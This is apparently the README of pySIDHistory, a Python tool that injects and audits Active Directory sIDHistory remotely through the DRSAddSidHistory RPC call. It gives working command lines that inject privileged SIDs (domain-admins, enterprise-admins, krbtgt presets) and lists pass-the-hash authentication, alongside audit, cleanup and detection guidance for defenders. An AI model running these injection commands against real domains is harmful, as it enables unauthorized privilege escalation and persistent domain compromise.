



# pySIDHistory

Remote SID History injection & auditing from Linux — the first tool to implement `IDL_DRSAddSidHistory` (MS-DRSR opnum 20) in Python.

> *"There is currently no way to exploit this technique purely from a distant UNIX-like machine"* — [The Hacker Recipes](https://www.thehacker.recipes/ad/persistence/sid-history)

**MITRE ATT&CK**: [T1134.005 — SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)

## Installation

```bash
git clone https://github.com/felixbillieres/pySIDHistory.git
cd pySIDHistory
pip install -r requirements.txt
```

**Requirements**: Python 3.7+, `ldap3`, `impacket`

---

## Red Team — Injection

### DRSUAPI Injection (Cross-Forest)

The core feature — injects a source user's SID into a target's `sIDHistory` via `DRSAddSidHistory` (opnum 20). This is the RPC call that Microsoft's ADMT uses for domain migrations, now available from Linux.

```bash
python3 sidhistory.py -d DST.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --target victim --source-user admin --source-domain SRC.LOCAL \
    --method drsuapi \
    --src-username admin --src-password 'Pass123' --src-domain SRC.LOCAL
```


### Preset Injection

Inject well-known privileged SIDs using built-in presets. 10 presets available: `domain-admins`, `enterprise-admins`, `schema-admins`, `administrators`, `domain-controllers`, `key-admins`, `enterprise-key-admins`, `group-policy-creators`, `krbtgt`, `administrator`.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --target victim --preset domain-admins
```


### Direct SID Injection

Inject any arbitrary SID directly.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --target victim --sid S-1-5-21-xxx-512
```


### Dry Run

Preview what would be injected without modifying AD.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --target victim --preset enterprise-admins --dry-run
```


---

## Blue Team — Audit & Cleanup

### Query sIDHistory

Show sIDHistory entries for a specific object with SID resolution.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --query victim
```


### Domain-Wide Audit

Scan every object in the domain for sIDHistory entries. Includes risk assessment (CRITICAL/HIGH/MEDIUM/LOW) and SID resolution.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --audit
```


### Audit with JSON Output

Export audit results as JSON for SIEM ingestion or automated processing.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --audit -o json --output-file audit.json
```


### Enumerate Domain Trusts

List all domain trusts with SID filtering status — identify where SID History attacks are possible.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --enum-trusts
```


### SID Lookup

Resolve a sAMAccountName to its SID.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --lookup admin
```


### List Presets

Show all available SID presets with their resolved SIDs for the target domain.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --list-presets
```


### Clear sIDHistory

Remove all sIDHistory entries from an object.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --target victim --clear
```



### Clean Same-Domain SIDs

Remove only same-domain SIDs (attack artifacts) while preserving cross-domain SIDs from legitimate migrations.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --target victim --clean-same-domain
```



### Remove Specific SID

Remove a single SID entry from sIDHistory.

```bash
python3 sidhistory.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --target victim --sid S-1-5-21-xxx-512 --remove
```



---

## Authentication Methods

5 authentication methods supported:

| Method | Flags | Protocol |
|--------|-------|----------|
| NTLM (password) | `-u admin -p Pass123` | ldap3 NTLM |
| Pass-the-Hash | `-u admin --ntlm-hash <LM:NT>` | impacket + ldap3 |
| Kerberos | `--kerberos --ccache ticket.ccache` | ldap3 SASL/GSSAPI |
| Certificate (PTC) | `--certificate --cert-file X --key-file Y` | LDAPS + SASL EXTERNAL |
| SIMPLE bind | `--simple -u admin -p Pass123 --use-ssl` | ldap3 SIMPLE |

---

## Architecture

```
sidhistory.py              CLI entry point & argument handling
  └── core/
      ├── attack.py        Orchestrator (wires everything together)
      ├── auth.py          Authentication (5 methods, ldap3 + impacket)
      ├── ldap_operations.py  LDAP queries & modifications
      ├── drsuapi.py       DRSAddSidHistory RPC (opnum 20, first Python impl)
      ├── scanner.py       Domain-wide auditing & risk assessment
      ├── sid_utils.py     SID binary conversion, presets, well-known SIDs
      └── output.py        Console/JSON/CSV formatting
```

## How It Works

**The problem**: Active Directory's SAM layer blocks LDAP writes to `sIDHistory` regardless of ACLs. Mimikatz bypasses this by patching `ntdsa.dll` in memory — but that requires SYSTEM on the DC.

**Our approach**: We call `IDL_DRSAddSidHistory` (opnum 20) on the DRSUAPI RPC interface — the same call that Microsoft's ADMT uses for legitimate domain migrations. This is the first Python implementation of this RPC operation.

```
Client (Linux)                          Domain Controller
  │                                         │
  │── EPM (135) ──────────────────────────►│  Resolve DRSUAPI endpoint
  │── DCE/RPC BIND (DRSUAPI UUID) ───────►│  With PKT_PRIVACY encryption
  │── DRSBind (opnum 0) ─────────────────►│  Signal DRS_EXT_ADD_SID_HISTORY
  │── DRSAddSidHistory (opnum 20) ───────►│  Inject SID into sIDHistory
  │◄── DRS_MSG_ADDSIDREPLY_V1 ───────────│  Win32 error code (0 = success)
```

## Detection

| Event ID | Description |
|----------|-------------|
| **4765** | SID History added to an account |
| **4766** | SID History add attempt failed |
| **4738** | User account changed (any attribute) |

Monitor for 4765/4766 — these are specific to SID History and should be extremely rare in production.

## Documentation

- [`docs/IMPLEMENTATION.md`](docs/IMPLEMENTATION.md) — Technical deep-dive: NDR serialization, protocol internals, troubleshooting
- [`docs/ARTICLE.md`](docs/ARTICLE.md) — Full writeup: how and why this tool was built
- [`docs/REFERENCES.md`](docs/REFERENCES.md) — All references and prior art

## References

- [MS-DRSR: IDL_DRSAddSidHistory (Opnum 20)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/376230a5-d806-4ae5-970a-f6243ee193c8)
- [MITRE ATT&CK T1134.005](https://attack.mitre.org/techniques/T1134/005/)
- [The Hacker Recipes: SID History](https://www.thehacker.recipes/ad/persistence/sid-history)
- [impacket](https://github.com/fortra/impacket)

## Author

**Felix Billieres (Elliot Belt)**

## Legal

**For authorized security testing only.** Unauthorized access to computer systems is illegal. Use at your own risk on systems you have explicit permission to test.
